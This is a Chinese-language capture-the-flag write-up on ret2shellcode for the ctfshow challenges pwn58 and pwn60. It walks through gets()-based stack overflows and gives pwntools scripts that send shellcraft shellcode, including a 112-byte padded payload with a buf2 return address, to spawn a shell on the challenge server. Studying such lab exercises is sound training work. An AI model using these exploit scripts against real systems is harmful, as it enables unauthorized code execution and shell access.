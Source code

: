 ## ctf ret2shellcode

ret2shellcode，即控制程序执行shellcode代码。shellcode指的是用于完成某种功能的汇编代码，常见的功能主要是获取目标系统的shell。一般来说，shellcode需要自己填充。这其实是另一种典型的利用方式，即此时我们需要自己去填充一些可执行的代码。在栈溢出的基础上，要想执行shellcode，需要shellcode所在的区域具有可执行的权限

1.篡改栈帧商店返回地址为攻击者手动传入的shellcode所在缓冲地址

2.初期往往蒋shellcode直接写入到栈缓冲区中

3.目前由于the NX bits保护措施的开启，栈缓冲区不可执行，因此这也是当下常用变相bss缓冲区写入shellcode或者向堆缓冲区写入shellcode并使用mprotect赋予其可执行权限

---

### pwn58

![image-20241116201210099](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116201210099.png)

这里存在一个可以读可写可执行的数据段因此我们可以扔到ida中

![image-20241116202949797](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116202949797.png)

看报错应该是这里无法进行反编译，流程其实也能很清楚的看出来，跟之前差不多，看到后面这里 调用了ctfshow函数，经验之谈漏洞点应该是在这的 ：

 看到有gets函数的调用，看汇编： ![image-20241116203057963](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116203057963.png)

我们可以看出对gets函数调用，参数对应的是 [ebp+s] 的地址,也就是在返回地址上一栈内存单元 处，对应主函数中，我们可以看到: ![image-20241116203109118](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116203109118.png)

gets 函数写入的地址即为 [ebp+s] 对应的地址，同时我们注意到: ![image-20241116203123228](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116203123228.png)

call 的地址即为 [ebp+s] 所指向的地址 到这里思路就很明显了，我们先输入的内容会被 get 读取，存到内存 [ebp+s] 中，然后在函数在后 面的时候，会调用这一部分内容。所以我们只要写入 shellcode ，函数后面就会调用 shellcode 。至于 [ebp+s] 是指向哪里 ，我们可以看到 main 函数中没有 offset 变量，所以这 [ebp+s] 指的是局部变量， 那就是在栈中，而 nx 保护没有开启，所以 shellcode 在栈上也可以执行。 故我们可以直接使用

pwntools的shellcraft模块帮我们生成一个shellcode进行攻击。

而shellcode的模块攻击默认用32位的因此我们要用64位的因此exp：

```python
from pwn import *


context.log_level='debug'
# io = process("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show", 28297)
payload= asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```

exp64:

```python
from pwn import*
context(log_level = 'debug', arch = 'amd64')
# io = process("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show", 28128)
payload= asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```

---

### pwn60

![image-20241119182343335](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241119182343335.png)

这里发现了一个栈溢出但是这里的64h+4并不是他需要的溢出地址这里就要使用gdb进行调试可以发现一个溢出地址因此优先gdb的因此溢出地址为112并且需要把shellcode写入到buf2中去因此他的exp：

```python
from pwn import *

# io = process("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show", 28218)
buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(112,b'a') + p32(buf2_addr)
io.sendline(payload)
io.interactive()
```

---

